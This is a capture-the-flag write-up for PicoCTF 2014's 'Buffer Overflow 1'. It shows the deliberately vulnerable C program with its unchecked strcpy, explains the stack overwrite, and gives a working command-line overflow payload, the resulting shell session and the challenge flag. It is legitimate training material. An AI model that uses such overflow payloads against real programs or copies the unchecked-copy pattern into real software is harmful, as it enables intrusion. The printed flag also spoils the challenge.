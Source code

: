 # Pico-CTF 2014: Buffer Overflow 1

**Category:** Binary Exploitation
**Points:** 50
**Total Solves:** Not Available
## Problem Description:
[//]: # (Description of your problem. For eg use below description as a template)
[//]: # (> This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! The binary can be found at /home/format/ on the shell server. The source can be found [here](format.c).)
> This problem has a buffer overflow vulnerability! Can you get a shell, then use that shell to read flag.txt? You can solve this problem interactively [here](https://picoctf.com/problem-static/binary/Overflow1/overflow1.html), and the source can be found [here](overflow1.c).

## Write-up
[//]: # (> Your write up goes here.)
> As the problem suggests it is a buffer overflow problem, looking at source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void give_shell(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}

void vuln(char *input){
    char buf[16];
    int secret = 0;
    strcpy(buf, input);

    if (secret == 0xc0deface){
        give_shell();
    }else{
        printf("The secret is %x\n", secret);
    }
}

int main(int argc, char **argv){
    if (argc > 1)
        vuln(argv[1]);
    return 0;
}
```

> We can see in the function vuln(char \*input) there is possibility of buffer overflow because strcpy() is copying into variable buf from variable input without checking input size. 
`char buf[16]` can store atmost 16 char including NULL, but strcpy will keep copying content from input to buf even if we provide more than 16 chars, it will store first 16 chars of input in buf then it will start writing on stack. 
Solution to get the flag is write `0xc0deface` in variable secret which will be just after the variable buf on stack, if we give input such that, of which first 16 chars are randomly anything but after that we give input what we want to write to secret whose hex value is`\xce\xfa\xde\xc0`, this is in reverse order because machine on which code is getting executed is little endian.

```
./overflow1 $(python -c 'print "A"*16+"\xce\xfa\xde\xc0"') 
$ id
uid=11066(pico1139) gid=1002(overflow1) groups=1017(picogroup)
$ cat flag.txt
ooh_so_critical
```

> Flag is **ooh_so_critical**

## Other write-ups and resources

* None
